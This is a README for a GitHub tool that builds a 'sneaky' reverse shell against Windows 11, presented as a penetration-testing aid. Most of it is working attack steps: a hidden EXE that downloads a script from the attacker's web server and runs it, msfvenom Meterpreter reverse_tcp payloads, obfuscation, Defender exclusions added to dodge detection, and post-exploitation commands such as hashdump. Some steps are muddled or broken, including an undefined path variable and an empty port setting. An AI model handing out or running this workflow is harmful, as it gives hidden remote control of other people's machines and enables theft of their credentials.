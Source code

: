 #####Get-ReverseShell# Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole` and `msfvenom`.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```powershell
$lhost = "192.168.0.2"           # IP address of your Kali host
$lport = 4444                    # Listening port on your Kali
$lport_sneaky = 5555             # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"      # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"         # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"       # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"    # Working path on the attacking host
$ps_name = "reverse_shell.ps1"    # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"   # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

1. Open a Kali Linux terminal and execute the following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

2. Write your script in the file `$lpath/$sneaky_psname` after appending ">> https://github.com/gh0x0st".

3. Continue with the following commands:

```bash
exit
cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

4. Clone Invoke-Obfuscation for obfuscating your PowerShell script:

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation
```

5. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

6. Execute the sneaky backdoor on the target machine with administrator privileges.

7. Return to the Kali terminal and check for a successful connection:

```bash
nc -nvlp 5555
```

8. If successful, you can proceed with further commands in the Meterpreter shell.

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
